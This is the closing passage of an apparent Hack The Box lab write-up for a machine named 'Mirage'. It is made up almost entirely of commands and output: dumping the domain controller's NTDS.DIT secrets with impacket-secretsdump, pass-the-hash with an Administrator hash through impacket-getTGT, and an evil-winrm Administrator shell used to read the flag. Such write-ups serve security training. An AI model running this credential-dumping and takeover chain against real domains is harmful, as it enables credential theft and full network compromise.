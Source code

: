 ```bash
export KRB5CCNAME='dc01$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache'
```

```bash
impacket-secretsdump -k -no-pass -dc-ip 10.10.11.78 dc01.mirage.htb
```

**Result:**

```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[*] Kerberos keys grabbed
[*] Cleaning up...
```

> ✅ Full dump of `NTDS.DIT` — including `krbtgt`, `Administrator`, and **all domain secrets**.

---

## 👑 Get the `Administrator` Shell (MITRE ATT&CK: Credential Access / Lateral Movement / Defense Evasion)

```bash
impacket-getTGT mirage.htb/administrator -hashes aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b9c0e3560f5a29eeb1afb3
```

```bash
export KRB5CCNAME=administrator.ccache
```

```bash
evil-winrm -i dc01.mirage.htb -r mirage.htb
```

> ✅ `WinRM shell` as `Administrator` on `dc01.mirage.htb`

![Worke-is-Done](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExdXB3cThrMHBwemg1cmpsbms5a3R0MGI5NnJ3MnAxMWJ6d2pxdzd1MiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/UtEUhkfriklonVdweC/giphy.gif)

### 🏁 Final Step: Capture the `root.txt` Flag

```bash
cd ..
cd Desktop
cat root.txt
```

> 🎯 Objective Complete: **Full Domain Takeover**

![Completed](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExdXB3cThrMHBwemg1cmpsbms5a3R0MGI5NnJ3MnAxMWJ6d2pxdzd1MiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/HLoJUnVVvyJkcGgxsv/giphy.gif)